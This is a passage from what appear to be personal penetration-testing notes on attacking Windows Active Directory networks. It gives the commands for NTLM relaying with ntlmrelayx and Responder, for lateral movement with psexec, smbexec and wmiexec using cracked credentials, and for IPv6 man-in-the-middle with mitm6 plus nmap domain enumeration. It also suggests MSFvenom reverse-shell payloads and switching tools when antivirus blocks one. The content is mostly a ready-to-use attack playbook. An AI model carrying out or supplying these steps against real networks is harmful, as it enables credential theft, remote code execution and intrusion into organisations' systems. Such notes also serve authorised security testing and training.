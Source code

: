 ```
  -m MAILBOX, --mailbox MAILBOX
                        Mailbox name to dump. Default: INBOX
  -a, --all             Instead of searching for keywords, dump all emails
  -im IMAP_MAX, --imap-max IMAP_MAX
                        Max number of emails to dump (0 = unlimited,
                        default: no limit)
```
1. installed with impacket (see pretest setup script)
 - ``` sudo docker run -it --rm "impacket:latest" ``` 
2. run while responder is running
```
ntmlrelayx.py -tf targets.txt -smb2support -i
```

```
-i interact
-e example.exe: execute example.exe
-c ls: run command ls
```
looking for it to dump SAM hashes or give you and SMB client shell for the known user. can use MSFvenom to create an executable payload and get reverse shell. or create a powershell script or CMD to run as a command to get a reverse shell or do something. 

#### connecting: requires having cracked a hash
1. can use MSFconsole to attack the tartget using exploit/windows/smb/psexec
2. if that is getting stopped by antivirus try psexec.py 
``` psexec.py <domain>.local/<user>:<password>@<ip-address> ```
3. if that is getting stopped by antivirus try smbexec.py 
``` smbexec.py <domain>.local/<user>:<password>@<ip-address> ```
4. if that is getting stopped by antivirus try wmiexec.py 
``` wmiexec.py <domain>.local/<user>:<password>@<ip-address> ```
5. there is also a powershell version of psexec and other options that might be able to do the same thing. 

## IPv6: mitm6
1. install from github
```
cd /opt; git clone https://github.com/fox-it/mitm6.git; cd mitm6
```
2. get Domain Controller IP 
Domain controllers will show port 389 running the Microsoft Windows AD LDAP service:
```
nmap -p389 -sV <IP-range>
```
Expected Output:
```
PORT    STATE SERVICE VERSION 
389/tcp open  ldap    Microsoft Windows AD LDAP (Domain:TESTDOMAIN, Site: TEST) 
```
OR:
```
nmap -p 389 -T4 -A -v --script ldap-rootdse <IP-range>
```
3. get Domain name using nmap
```
nmap --script smb-enum-domains.nse -p445 <host>
sudo nmap -sU -sS --script smb-enum-domains.nse -p U:137,T:139 <host>
```
OR:
```
nmap --script smb-os-discovery.nse -p445 127.0.0.1
sudo nmap -sU -sS --script smb-os-discovery.nse -p U:137,T:139 127.0.0.1
```

4. run mitm6
```
sudo python mitm6.py -i eth0 -d <domain>.local
```
```